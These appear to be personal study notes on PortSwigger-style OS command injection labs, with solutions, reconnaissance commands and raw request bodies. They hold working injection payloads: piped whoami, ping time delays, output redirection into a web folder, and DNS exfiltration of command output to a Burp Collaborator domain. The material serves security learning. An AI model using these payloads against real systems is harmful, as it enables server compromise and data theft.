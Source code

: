 # OS command injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Useful commands

| Purpose of command      | Linux         | Windows         |
| ----------------------- |---------------|-----------------|
| Name of current user    | whoami        | whoami          |
| Operating system        | uname -a      | ver             |
| Network configuration   | ifconfig      | ipconfig /all   |
| Network connections     | netstat -an   | netstat -an     |
| Running processes       | ps -ef        | tasklist        | 

### OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.
The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

**Solution**
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the *storeID* parameter, giving it the *value 1|whoami*.
3. Observe that the response contains the *name* of the current user.

**My comment**

Write this to determine the name of the current user

```productId=1&storeId=1|whoami```

## Blind OS command injection vulnerabilities

The application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

### Blind OS command injection with time delays

This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

**Solution**
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:

    ```email=x||ping+-c+10+127.0.0.1||```
3. Observe that the response takes 10 seconds to return.

**My comment**

This command will cause the application to ping its loopback network adapter for 10 seconds.

```||ping+-c+10+127.0.0.1||```

```csrf=g2SpqZfZMT0DNRB6KSaoZ41Eb6xW9JK5&name=Hacker&email=hacker%40hackit.com||ping+-c+10+127.0.0.1||&subject=Try It&message=-_-q```

### Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

```/var/www/images/```

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

**Solution**
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the *email* parameter, changing it to:

    ```email=||whoami>/var/www/images/output.txt||```

3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the *filename* parameter, changing the value to the name of the file you specified for the output of the injected command:

    ```filename=output.txt```

5. Observe that the response contains the output from the injected command.

**My comment**

```||whoami>/var/www/images/output.txt||```

```csrf=l2KUXpDUC1F1AfkvW7bEMBX44zivWxCQ&name=Hacker&email=hacker%40hackit.com||whoami>/var/www/images/output.txt||&subject=fck4&message=Hello+my+old+friend!```

Then change a filename 

```GET /image?filename=output.txt HTTP/1.1```

### Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

**Solution**
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the *email* parameter, changing it to:

    ```email=x||nslookup+x.burpcollaborator.net||```

**My comment**

Write and use burp collaborator

```||nslookup+burpcollaborator.net||```

```csrf=hySwVEki7X1Ap2COirbua4zKPosdalXO&name=Hacker&email=hacker%40hackit.com||nslookup+&subject=Smile&message=%3A%29```

### Blind OS command injection with out-of-band data exfiltration

This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

**Solution**
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the *email* parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

    ```email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||```

5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.